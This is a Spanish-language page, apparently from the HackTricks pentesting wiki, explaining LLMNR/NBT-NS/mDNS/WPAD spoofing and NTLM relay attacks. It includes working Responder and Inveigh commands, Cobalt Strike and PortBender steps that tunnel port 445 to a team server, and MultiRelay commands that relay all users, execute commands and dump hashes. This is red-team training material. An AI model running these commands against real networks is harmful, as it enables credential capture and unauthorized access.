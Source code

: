 # Spoofing LLMNR, NBT-NS, mDNS/DNS y WPAD y Ataques de Relay

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## Protocolos de Red

### Protocolos de Resolución de Nombres Locales
- **LLMNR, NBT-NS y mDNS**:
- Microsoft y otros sistemas operativos utilizan LLMNR y NBT-NS para la resolución de nombres locales cuando DNS falla. De manera similar, los sistemas de Apple y Linux utilizan mDNS.
- Estos protocolos son susceptibles a la interceptación y el spoofing debido a su naturaleza no autenticada y de difusión sobre UDP.
- [Responder](https://github.com/lgandx/Responder) se puede utilizar para suplantar servicios enviando respuestas falsificadas a los hosts que consultan estos protocolos.
- Más información sobre la suplantación de servicios utilizando Responder se puede encontrar [aquí](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Protocolo de Descubrimiento Automático de Proxy Web (WPAD)
- WPAD permite a los navegadores descubrir automáticamente la configuración del proxy.
- El descubrimiento se facilita a través de DHCP, DNS, o retrocediendo a LLMNR y NBT-NS si DNS falla.
- Responder puede automatizar ataques WPAD, dirigiendo a los clientes a servidores WPAD maliciosos.

### Responder para el Envenenamiento de Protocolos
- **Responder** es una herramienta utilizada para envenenar consultas LLMNR, NBT-NS y mDNS, respondiendo selectivamente según los tipos de consulta, apuntando principalmente a servicios SMB.
- Viene preinstalado en Kali Linux, configurable en `/etc/responder/Responder.conf`.
- Responder muestra los hashes capturados en la pantalla y los guarda en el directorio `/usr/share/responder/logs`.
- Soporta tanto IPv4 como IPv6.
- La versión de Windows de Responder está disponible [aquí](https://github.com/lgandx/Responder-Windows).

#### Ejecutando Responder
- Para ejecutar Responder con la configuración predeterminada: `responder -I <Interface>`
- Para un sondeo más agresivo (con posibles efectos secundarios): `responder -I <Interface> -P -r -v`
- Técnicas para capturar desafíos/respuestas NTLMv1 para un cracking más fácil: `responder -I <Interface> --lm --disable-ess`
- La suplantación de WPAD se puede activar con: `responder -I <Interface> --wpad`
- Las solicitudes de NetBIOS se pueden resolver a la IP del atacante, y se puede configurar un proxy de autenticación: `responder.py -I <interface> -Pv`

### Envenenamiento DHCP con Responder
- Falsificar respuestas DHCP puede envenenar permanentemente la información de enrutamiento de una víctima, ofreciendo una alternativa más sigilosa al envenenamiento ARP.
- Requiere un conocimiento preciso de la configuración de la red objetivo.
- Ejecutando el ataque: `./Responder.py -I eth0 -Pdv`
- Este método puede capturar efectivamente hashes NTLMv1/2, pero requiere un manejo cuidadoso para evitar interrupciones en la red.

### Capturando Credenciales con Responder
- Responder suplantará servicios utilizando los protocolos mencionados anteriormente, capturando credenciales (generalmente NTLMv2 Challenge/Response) cuando un usuario intente autenticarse contra los servicios falsificados.
- Se pueden hacer intentos para degradar a NetNTLMv1 o desactivar ESS para un cracking de credenciales más fácil.

Es crucial notar que el uso de estas técnicas debe hacerse de manera legal y ética, asegurando la autorización adecuada y evitando interrupciones o accesos no autorizados.

## Inveigh

Inveigh es una herramienta para testers de penetración y equipos rojos, diseñada para sistemas Windows. Ofrece funcionalidades similares a Responder, realizando ataques de spoofing y man-in-the-middle. La herramienta ha evolucionado de un script de PowerShell a un binario en C#, con [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) y [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) como las versiones principales. Parámetros e instrucciones detalladas se pueden encontrar en la [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh se puede operar a través de PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
O ejecutado como un binario de C#:
```bash
Inveigh.exe
```
### NTLM Relay Attack

Este ataque aprovecha las sesiones de autenticación SMB para acceder a una máquina objetivo, otorgando un shell del sistema si tiene éxito. Los requisitos clave incluyen:
- El usuario que se autentica debe tener acceso de Administrador Local en el host retransmitido.
- La firma SMB debe estar deshabilitada.

#### 445 Port Forwarding and Tunneling

En escenarios donde la introducción directa a la red no es factible, el tráfico en el puerto 445 necesita ser reenviado y tunelizado. Herramientas como [**PortBender**](https://github.com/praetorian-inc/PortBender) ayudan a redirigir el tráfico del puerto 445 a otro puerto, lo cual es esencial cuando se tiene acceso de administrador local para la carga de controladores.

Configuración y operación de PortBender en Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Otras Herramientas para el Ataque de Relevo NTLM

- **Metasploit**: Configurado con proxies, detalles de hosts locales y remotos.
- **smbrelayx**: Un script de Python para relajar sesiones SMB y ejecutar comandos o desplegar puertas traseras.
- **MultiRelay**: Una herramienta del conjunto Responder para relajar usuarios específicos o todos los usuarios, ejecutar comandos o volcar hashes.

Cada herramienta se puede configurar para operar a través de un proxy SOCKS si es necesario, lo que permite ataques incluso con acceso indirecto a la red.

### Operación de MultiRelay

MultiRelay se ejecuta desde el _**/usr/share/responder/tools**_ directorio, apuntando a IPs o usuarios específicos.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
Estas herramientas y técnicas forman un conjunto integral para llevar a cabo ataques de NTLM Relay en varios entornos de red.

### Forzar Inicios de Sesión NTLM

En Windows, **puede que puedas forzar a algunas cuentas privilegiadas a autenticarse en máquinas arbitrarias**. Lee la siguiente página para aprender cómo:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Referencias
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
